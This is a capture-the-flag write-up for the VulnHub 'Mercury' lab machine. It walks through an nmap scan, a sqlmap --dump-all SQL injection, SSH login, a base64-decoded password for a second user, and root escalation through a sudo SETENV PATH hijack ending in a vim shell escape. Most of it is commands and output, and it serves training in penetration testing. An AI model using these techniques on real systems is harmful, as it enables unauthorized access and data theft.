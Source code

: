 ```yaml
---
title: The Planets:Mercury - Writeup
author: Elman Alizadeh
date: 2022-06-06 21:00:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, planets]
---
```


Today we will take a look at Vulnhub: The Planets: Mercury. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-mercury/1.jpeg" | relative_url }})

## Nmap

```console
$ sudo nmap -p- -sCV --open 192.168.0.114

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Mon, 06 Jun 2022 15:57:23 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html
|     X-Frame-Options: DENY
|     Content-Length: 2366
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Mon, 06 Jun 2022 15:57:23 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Content-Length: 69
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Hello. This site is currently in development please check back later.
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
```

## Web

/nice ports

![Desktop View]({{ "/assets/img/vuln-mercury/1.png" | relative_url }})

/mercuryfacts

Click Load a fact.

http://192.168.0.114:8080/mercuryfacts/1/

```console
When you write the ' character we get a reply.
```
![Desktop View]({{ "/assets/img/vuln-mercury/2.png" | relative_url }})

## Sqlmap

```console
sqlmap -u http://192.168.0.114:8080/mercuryfacts/1 --batch --dump-all
```

![Desktop View]({{ "/assets/img/vuln-mercury/3.png" | relative_url }})

## Ssh

```console
ssh webmaster@192.168.0.114
```

## linuxmaster

In the mercury_proj folder, in notes.txt, there are information about the other user. Let’s use it and find your password.

```console
$ echo 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d

mercurymeandiameteris4880km

$ su linuxmaster
```

## Root

```console
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh 
---------------------------
#!/bin/bash
tail -n 10 /var/log/syslog
---------------------------

linuxmaster@mercury:~$ ls -l /usr/bin/check_syslog.sh

-rwxr-xr-x 1 root root 39 Aug 28  2020 /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ ln -s /bin/vim tail

linuxmaster@mercury:~$ export PATH=.:$PATH

linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 

:!/bin/bash
```

![Desktop View]({{ "/assets/img/vuln-mercury/4.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-mercury/1.png" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”